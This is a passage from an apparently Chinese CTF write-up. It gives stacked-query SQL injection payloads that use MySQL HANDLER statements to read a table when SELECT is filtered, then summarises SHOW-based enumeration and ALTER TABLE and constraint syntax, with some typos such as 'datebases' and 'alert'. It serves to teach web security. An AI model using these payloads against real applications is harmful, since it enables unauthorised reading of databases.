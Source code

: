 #### 2使用handler语句

payload：

```
1'; handler `1919810931114514` open as `a`; handler `a` read next;# 
```

简单一点就是

```
1'; handler `1919810931114514` open; handler `1919810931114514`read next; # 
```

## 知识点总结

### show

在过滤了 select 和 where 的情况下，还可以使用 show 来爆出数据库名，表名，和列名。

```
show datebases; //数据库。

show tables from database; //表名。

show columns from table; //字段。 
```

### alert

作用：修改已知表的列。（ 添加：add | 修改：alert，change | 撤销：drop ）

```
添加一个列
alter table " table_name" add " column_name"  type;
删除一个列
alter table " table_name" drop " column_name"  type;
改变列的数据类型
alter table " table_name" alter column " column_name" type;
改列名
alter table " table_name" change " column1" " column2" type;
alter table "table_name" rename "column1" to "column2"; 
```

### SQL约束

```
not null- 指示某列不能存储 NULL 值。
alter table persons modify age int not null;//设置 not null 约束 。
alter table person modify age int null;//取消 null 约束。

primary key - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键
alter table persons add age primary key (id)

unique -保证某列的每行必须有唯一的值。(注：可以有多个 UNIQUE 约束，只能有一个 PRIMARY KEY 约束。 )
alter table person add unique (id);//增加unique约束。

check-限制列中值的范围。
alter table person add check (id>0);

default-规定没有给列赋值时的默认值。
alter table person alter city set default 'chengdu' ;//mysql

alter table person add constraint ab_c default 'chengdu' for city;//SQL Server / MS Access

auto_increment-自动赋值，默认从1开始。

foreign key-保证一个表中的数据匹配另一个表中的值的参照完整性。 
```